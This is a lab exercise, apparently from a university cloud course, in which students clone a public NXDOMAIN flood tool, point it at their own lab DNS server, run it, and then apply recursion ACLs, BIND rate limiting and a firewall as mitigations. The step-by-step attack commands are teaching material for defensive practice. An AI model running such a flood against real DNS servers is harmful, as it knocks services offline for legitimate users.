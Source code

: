 A common DNS Denial-of-Service attack is NXDOMAIN attack.
`NXDOMAIN` (Non eXistent DOMAIN) is the error you receive when checking for an nonexistent domain name:

```shell-session
$ host magic.scgc.ro
Host magic.scgc.ro not found: 3(NXDOMAIN)
```
When flooding a DNS Server with unique requests that will return `NXDOMAIN`, you
may make the server unavailable for legitimate requests.

We will see how to make a denial of service attack on a DNS server.
You will need to open three terminals to the host (SCGC Template).

:::warning
For the sake of this task, enable recursion for the helper VM. This should be already configured from the previous task, but double check to make sure.
:::

Connect to the helper VM.
Clone the following repository and change the working directory:

```shell-session
[student@helper ~]$ git clone https://github.com/shiroe41/DNS-NXDOMAIN-FLood-Attack
[student@helper ~]$ cd DNS-NXDOMAIN_FLood-Attack/src
```

Modify the source code to use your DNS server IP address and compile the code:

```shell-session
[student@helper ~]$ grep dest_sock_addr.sin_addr.s_addr dos_attack.c
    dest_sock_addr.sin_addr.s_addr = inet_addr("192.168.100.11");  /* target DNS server ip address */
    ip_header->ip_dst.s_addr = dest_sock_addr.sin_addr.s_addr;
[student@helper ~]$ gcc -o dos_attack dos_attack.c
```

Interrogate your DNS server to check if everything works fine (both from the base VM and from the helper VM).

:::note
Use `<your_last_name>.scgc.ro` (the domain you configured earlier) for testing. In the following examples we will be using scgc.ro as our domain.
:::

```shell-session
$ host scgc.ro dns
Using domain server:
Name: 192.168.100.11
Address: 192.168.100.11#53
Aliases:

scgc.ro mail is handled by 42 mail.scgc.ro.
scgc.ro mail is handled by 60 mail2.scgc.ro.
```

From the base VM, run `tcpdump`:

```shell-session
$ sudo tcpdump -i virbr-labs udp port 53 # we check only the DNS traffic
```

From the first terminal, start the attack:

```shell-session
[student@helper ~]$ sudo ./dos_attack
```

While the attack is running, from the base VM, test the DNS server:

```shell-session
$ host scgc.ro 192.168.100.11
Using domain server:
Name: 192.168.100.11
Address: 192.168.100.11#53
Aliases:

;; connection timed out; no servers could be reached
```
The server will hardly respond or will fail.

Stop the attack and the tcpdump. Inspect the tcpdump output:

```shell-session
...
23:26:48.364788 IP 10.0.2.20.29264 > 192.168.100.11.domain: 40664+ A? idcdy.fuawv.lulix. (35)
23:26:48.364829 IP 10.0.2.20.8518 > 192.168.100.11.domain: 11612+ A? lsrae.olszf.lkttp. (35)
23:26:48.364870 IP 10.0.2.20.46214 > 192.168.100.11.domain: 28079+ A? ctqzq.bvblt.xltqp. (35)

^C
760212 packets captured
1864674 packets received by filter
1104462 packets dropped by kernel
```

We can see that a high number of packages were sent to the DNS server in a short time.
Pay attention to the DNS requests: all the domains are randomly generated.

A mitigation method is to allow recursion only for some hosts.
You can either remove the helper VM from the ACL list or disable recursion.
Redo the steps above and check the new behaviour.
Even though the DNS Server does not make any more recursive queries and the
attacker's queries are refused, the server is still flooded and unavailable.

Another workaround is to limit the response rate. By adding the following lines in
your `/etc/bind/named.conf.options` file, you can limit the number of unique responses
that are delivered each second:

```nginx
...
options {
...

	rate-limit {
		responses-per-second 20;
	};
...
};
```

Restart bind and redo the attack steps. You can see in the tcpdump output that the
DNS server ignores the queries from the helper network, and legitimate queries are resolved.
However, you should be careful when you set this option since it may affect legitimate traffic
(depending on your expected traffic).

:::important
Usually, the best way to mitigate these attacks is to use a firewall. You can set your DNS server
behind a dedicated firewall (CISCO, FortiGate, Juniper, PaloAlto, pfSense, MikroTik) or use a software
firewall on your server.
:::
